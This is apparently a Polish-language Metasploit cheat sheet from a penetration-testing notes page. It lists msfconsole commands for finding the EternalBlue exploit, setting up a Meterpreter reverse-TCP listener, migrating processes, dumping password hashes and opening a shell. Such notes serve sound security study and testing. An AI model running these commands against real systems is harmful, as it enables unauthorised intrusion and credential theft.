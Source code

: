 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# metasploit

msfconsole

\#szukanie exploitu

```
search eternalblue
```

\#użycie exploitu

```
use
```

\#argumenty w exploicie, które trzeba wypełnić

```
show options
```

\#importowanie bazy np z nmapa (zapisanego jako XML nmap -oX)

```
db_import baza.xml
```

\#uruchomienie nmapa w metasploicie

```
db_nmap -A 10.20.10.4
```

\#ustawianie atrybutów

```
set LHOST RHOST LPORT RPORT
```

\#uruchomienie

```
run
```

\#używanie skryptów

```
msfconsole -r plik 
/usr/share/metasploit-framework/scripts/resource/
```

\#włączanie listenera use exploit/multi/handler set payload windows/meterpreter/reverse\_tcp set lhost set lport exploit

```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 
set lport 
exploit
```

\#migrowanie w meterpreterze do innego procesu o id 1300

```
migrate 1300
```

\#zrzut hashy haseł

```
hashdump
```

\#używanie shell zamiast meterpretera - będą działać Windowsowskie komendy (np: whoami)

```
shell
```
